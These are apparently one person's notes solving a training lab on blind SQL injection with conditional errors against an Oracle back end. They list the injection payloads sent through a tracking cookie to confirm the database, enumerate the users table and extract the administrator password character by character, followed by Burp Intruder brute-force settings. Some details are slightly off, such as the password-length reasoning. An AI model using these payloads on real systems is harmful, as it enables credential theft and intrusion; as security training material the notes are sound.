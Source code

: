 **Lab: Blind SQL injection with conditional errors**
*Vulnerable parameter - tracking cookie*
*- Goal:*
1. Exploit vulnerabilities to find out the password
2. Log in as `administrator`

*- Analysis:*

1. Prove that this parameter is vulnerable:

> ' || (select '' from dual) || ' 

-> 200 OK -> this is ORACLE database

> ' || (select '' from dualfiewjlow) || ' 

-> 500 error
2. Confirm that we have a user table in database:
> ' || (select '' from users where rownum = 1) || ' 

-> 200 OK: users table exists 

3. Confirm that we have a user `Administrator` existing in users table:
> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'

-> 500 internal server error -> administrator user exists 

> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='jasdnlaksnd') ||'

-> 200 OK -> user does not exist in the database
4. Determine the length of the password of '`Administrator`:

> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>20) ||'

-> 200 OK -> length is less than 50
-> 20 characters because from 19 to 20 status response is change from 500 to 200

5. Output the admin password:
> ' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substring(password,1,1)='a') ||'

-> 500 interval server error: a is the first character
![alt text](image.png)

> Intruder -> Type:Brute Forcer -> Min_Max:1_1-> Set filter (pro version)

> Cluster bomb2 -> Type:Brute Forcer -> 2 payload
*`LAB SOLVED`*
![alt text](image-1.png)